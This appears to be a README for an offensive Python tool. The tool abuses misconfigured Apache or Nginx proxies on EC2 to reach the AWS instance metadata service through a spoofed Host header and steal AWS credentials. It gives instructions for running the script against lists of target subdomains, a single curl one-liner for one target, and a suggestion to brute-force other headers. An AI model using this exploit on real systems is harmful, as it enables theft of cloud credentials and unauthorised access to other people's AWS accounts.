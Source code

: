 ### What is this?
The set `proxy_server` and `proxy_pass` directives are typically used in the configuration file of a web server like Apache or Nginx running on an Amazon EC2 instance to configure a proxy server that will forward incoming requests to another server.


#### Misconfiguration:
Sometimes people set http://aws.ca.fi (which resolves to `169.254.169.254`) as proxy server that will receive incoming requests.

### Exploit
So we can modify the proxy by passing aws metadata url to the header and get aws-credentials. Most common header is `Host` header but you can brute-force with other headers to find out(modify the script accordingly).


### How to run?
- Pass a file(full path) with target subdomains
    - file format without http or https protocol: \
    `line 1: stage.abc.com` \ 
    `line 2: beta-stage.abc.com`
- Run: `python aws-credentials-via-proxy.py C:\Users\Nitin\Documents\github\subdomains.txt`

If you have fewer or one target, run - `curl -ik -H "Host:aws.ca.fi" http://target.com/latest/meta-data/`

